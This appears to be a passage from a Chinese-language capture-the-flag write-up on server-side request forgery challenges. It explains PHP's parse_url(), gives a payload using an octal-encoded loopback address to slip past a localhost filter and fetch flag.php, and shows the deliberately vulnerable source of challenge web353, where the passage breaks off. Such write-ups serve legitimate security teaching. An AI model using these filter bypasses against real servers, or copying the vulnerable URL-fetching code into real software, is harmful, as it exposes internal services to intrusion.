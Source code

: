 ```php
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

对`parse_url()`的了解

#### **`$x = parse_url($url);`**

- `parse_url()` 是PHP内置的函数，它会解析一个URL并将其分解成不同的组成部分（例如协议、主机名、端口、路径等）。

- 解析后的结果是一个关联数组（

  ```
  $x
  ```

  ），其中包含了URL的各个部分。例如：

  ```php
  $x = parse_url('https://www.example.com:8080/path?arg=value#anchor');
  ```

  `$x` 将包含：

  ```php
  [
      'scheme' => 'https',
      'host' => 'www.example.com',
      'port' => 8080,
      'path' => '/path',
      'query' => 'arg=value',
      'fragment' => 'anchor'
  ]
  ```

Payload:

```
url=http://0177.000.000.001/flag.php
```



### web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
```